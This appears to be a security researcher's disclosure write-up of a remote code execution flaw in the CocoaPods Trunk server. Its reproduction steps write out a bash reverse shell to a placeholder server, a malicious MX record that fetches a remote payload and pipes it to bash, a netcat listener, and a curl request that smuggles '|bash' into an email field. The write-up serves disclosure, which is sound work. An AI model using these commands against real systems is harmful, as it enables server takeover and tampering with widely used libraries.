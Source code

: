
#### <ins>HIGH-LEVEL EXPLOIT EXPLANATION</ins>
To initiate the Remote Code Execution, we invoked the `POST /api/v1/sessions` API endpoint and the following payload:<br>
<b>`anything<span>@owned.domain|bash`</b><br>
While the domain "owned.domain" represents the maliciously crafted MX record as described above.


#### <ins>STEPS TO REPRODUCE</ins>
1. Prepare Payload Server: Set up a web server to serve the payload.txt file, which contains the code to be executed on the Trunk server.
    * For example:<br>```sh -i >& /dev/tcp/SERVER/1337 0>&1```

2. Create A Malicious MX Record: Generate a new MX record that includes a payload designed to retrieve the prepared payload from step 1 and execute it.
    * For example:<br>
```10 a||{curl, -s,http://WEB_SERVER/payload.txt}|bash||.com```

3. Set Up Reverse Shell Listener: Launch a reverse shell listener, such as netcat (nc), on a publicly accessible port.
    * For example: <br>
```nc -lvp 1337```

4. Execute Reverse Shell: Send an HTTP request to trigger the reverse shell execution, which can be done by using a curl command.
    * ```curl -X $'POST' -H $'Host: trunk.cocoapods.org' -H $'Content-Type: application/json; charset=utf-8' -H $'User-Agent: CocoaPods/1.12.1' --data-binary $'{\"email\":\"name@MX_RECORD_DOMAIN|bash\",\"name\":\"Your Name\",\"description\":null}' $'https://trunk.cocoapods.org/api/v1/sessions'```

 
#### <ins>EXECUTION</ins>
![](image6.png)
![](image7.png)
![](image8.png)

#### <ins>FULL EXPLOITATION VIDEO</ins>
![exploit](https://github.com/ReeFSpeK/CocoaPods-RCE/assets/24816171/7cfe32cf-b2c9-433a-9ecb-42f4a35ffc99)

 
## Successful Exploitation Impact
In our research, we have identified a critical security vulnerability within the CocoaPods Trunk Server that enables the execution of arbitrary operating system commands (fully interactive Remote Code Execution). 

If an unauthorized threat actor compromises the server, he/she could potentially introduce malicious code into widely-used libraries. This could lead to severe security vulnerabilities in countless iOS and macOS applications that rely on these compromised CocoaPods. 

Additionally, the threat actor could manipulate pod specifications, disrupt the distribution of legitimate libraries, or cause widespread disruption within the CocoaPods ecosystem.
